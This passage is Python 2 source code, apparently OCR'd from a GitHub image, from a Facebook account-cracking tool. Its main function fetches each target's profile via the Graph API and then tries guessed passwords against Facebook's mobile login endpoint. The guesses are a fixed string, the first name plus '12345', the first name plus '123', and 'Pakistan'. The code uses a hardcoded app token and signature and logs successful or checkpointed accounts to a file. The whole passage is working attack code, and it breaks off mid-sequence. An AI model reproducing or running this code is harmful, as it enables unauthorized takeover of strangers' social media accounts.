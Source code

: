	print 50*"-"
	print
	
			
	def main(arg):
		global cpb,oks
		user = arg
		try:
			os.mkdir('save')
		except OSError:
			pass
		try:
			a = requests.get('https://graph.facebook.com/'+user+'/?access_token='+toket)
			b = json.loads(a.text)
			pass1 = '786786'
			data = urllib2.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass1)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
			q = json.load(data)
			if 'access_token' in q:
				print '\x1b[1;92m[Successful]\x1b[0m ' + user + ' | ' + pass1
				oks.append(user+pass1)
			else:
				if 'www.facebook.com' in q["error_msg"]:
					print '[Checkpoint] ' + user + ' | ' + pass1
					cps = open("save/checkpoint.txt", "a")
					cps.write(user+"|"+pass1+"\n")
					cps.close()
					cpb.append(user+pass1)
				else:
					pass2 = b['first_name']+'12345'
					data = urllib2.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass2)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
					q = json.load(data)
					if 'access_token' in q:
						print '\x1b[1;92m[Successful]\x1b[0m ' + user + ' | ' + pass2
						oks.append(user+pass2)
					else:
						if 'www.facebook.com' in q["error_msg"]:
							print '[Checkpoint] ' + user + ' | ' + pass2
							cps = open("save/checkpoint.txt", "a")
							cps.write(user+"|"+pass2+"\n")
							cps.close()
							cpb.append(user+pass2)
						else:
							pass3 = b['first_name'] + '123'
							data = urllib2.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass3)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
							q = json.load(data)
							if 'access_token' in q:
								print '\x1b[1;92m[Successful]\x1b[0m ' + user + ' | ' + pass3
								oks.append(user+pass3)
							else:
								if 'www.facebook.com' in q["error_msg"]:
									print '[Checkpoint] ' + user + ' | ' + pass3
									cps = open("save/checkpoint.txt", "a")
									cps.write(user+"|"+pass3+"\n")
									cps.close()
									cpb.append(user+pass3)
								else:
									pass4 = 'Pakistan'